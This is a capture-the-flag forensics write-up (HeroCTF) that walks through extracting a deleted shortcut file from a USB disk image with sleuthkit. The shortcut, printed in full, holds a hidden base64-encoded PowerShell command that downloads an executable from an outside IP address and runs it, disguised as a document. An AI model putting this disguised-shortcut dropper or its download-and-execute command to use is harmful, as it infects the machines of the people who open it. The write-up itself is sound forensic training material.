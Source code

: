 # Where all problems start 1
#### forensics - [HeroCTF](../main.md)

## Challenge description:
> For a change of pace, a company has been attacked again... Nevertheless, the means used here is quite original, indeed, it would be apparently a food delivery man who would be at the origin of the initial compromise... For your first analysis, you will have to found what the USB key that the delivery man put in the computer contains.
>
> Could you provide us the malicious URL used to download something ?
>
> Download file: [dump.7z](../assets/dump.7z)
## Solution 
After we unzip the file, we can see what it is with the `file` command.
```
$ file usb.dump
usb.dump: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "mkfs.fat", sectors/cluster 8, Media descriptor 0xf8, sectors/track 62, heads 124, hidden sectors 32, sectors 7831282 (volumes > 32 MB), FAT (32 bit), sectors/FAT 7640, reserved 0x1, serial number 0x9c286c52, unlabeled
```
We can use the `fls` command (part of sleuthkit) to see the files inside. This is useful as it also shows deleted commands, denoted by an `*`.
```
$ fls usb.dump
r/r * 5:        Important_Document.lnk
r/r 7:  README.txt
v/v 125055523:  $MBR
v/v 125055524:  $FAT1
v/v 125055525:  $FAT2
V/V 125055526:  $OrphanFiles
```
The `Important_Document.lnk` file seems interesting, and we can use the `icat` command to extract it from the dump.
```
$ icat usb.dump 5 > Important_Document.lnk
$ cat Important_Document.lnk
v1.0l2�FS�k powershell.exeNerShe�FS�k�T8�.N�xz?powershell.exeh-g�v��C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe�-Nop -sta -noni -w hidden -encodedCommand YwBkACAAQwA6AFwAVQBzAGUAcgBzAFwAVwBvAHIAdAB5AFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXAAgADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwADoALwAvADEANAA2AC4ANQA5AC4AMQA1ADYALgA4ADIALwBpAG0AZwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlACIAIAA7ACAALgBcAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlAA==0C:\Programmes\Windows NT\Accessories\wordpad.exe�%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe�%�
                                                              �wN���]N�D.��Q���`�Xdesktop-ji20hrm0gF&_zE���]���R�e����^
                                                                                                                       )M&�0gF&_zE���]���R�e����^
                                                                                                                                                 )M&��	��1SPS�XF�L8C���&�m�q/S-1-5-21-1162904530-3654154924-4196022673-100091SPS�mD��pH�H@.�=x�hH�<���A��7v��)
```
While it isn't completely in plaintext, there is an encoded command in PowerShell. We can use Cyberchef to decode it.

![Screenshot of Cyberchef](../assets/ksnip_20220529-172825.png)

The requested URL is our flag :)
<details> 
    <summary>Flag</summary>
Hero{http://146.59.156.82/img.png}
</details>